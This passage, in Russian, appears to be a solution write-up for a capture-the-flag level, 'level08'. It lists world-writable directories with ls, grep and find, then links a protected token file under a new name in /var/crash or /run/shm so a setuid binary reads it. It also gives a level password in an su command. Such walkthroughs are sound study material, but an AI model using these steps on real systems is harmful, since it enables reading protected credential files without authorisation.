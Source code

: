 ```sh
su level09 25749xKZ8L7DkSCwJkT9dyv6f
```


2. Длинный, рабочий, веселый путь )))) 

Теперь надо найти папку, куда записать токен с новым именем
```sh
ls -lA -R / 2>/dev/null | grep -E 'd[rwxst-]{6}rw.'
# ||
# \/
# drwxrwxrwx 21 root root  364 Mar 12  2016 rofs
# drwxrwxrwt  2 root root    3 Mar 12  2016 tmp
# drwxrwsrwt  2 root whoopsie   3 Mar 12  2016 crash
# drwxrwxrwt 4 root       root         80 Feb  8 10:53 lock
# drwxrwxrwt 2 root       root         40 Feb  8 10:53 shm
# drwxrwsrwt 2 root whoopsie   3 Mar 12  2016 crash

find / -name tmp -type d 2>/dev/null
# ||
# \/
# /tmp
# /var/tmp
# /rofs/tmp
# /rofs/var/tmp
```
ls -la на каждую папку - ни одна не подходит. \
Далее по порядку crash
```sh
find / -name crash -type d 2>/dev/null
# ||
# \/
# /usr/src/linux-headers-3.2.0-89-generic-pae/include/config/crash
# /var/crash
# /rofs/usr/src/linux-headers-3.2.0-89-generic-pae/include/config/crash
# /rofs/var/crash

ls -lad /var/crash
# ||
# \/
# drwxrwsrwt 2 root whoopsie 3 Mar 12  2016 /var/crash
# есть!

# или
find / -name shm -type d 2>/dev/null
# ||
# \/
# /run/shm
# есть!

ln -s token /var/crash/tkn
# или
ln -s token /run/shm/tkn

./level08 /run/shm/tkn
```
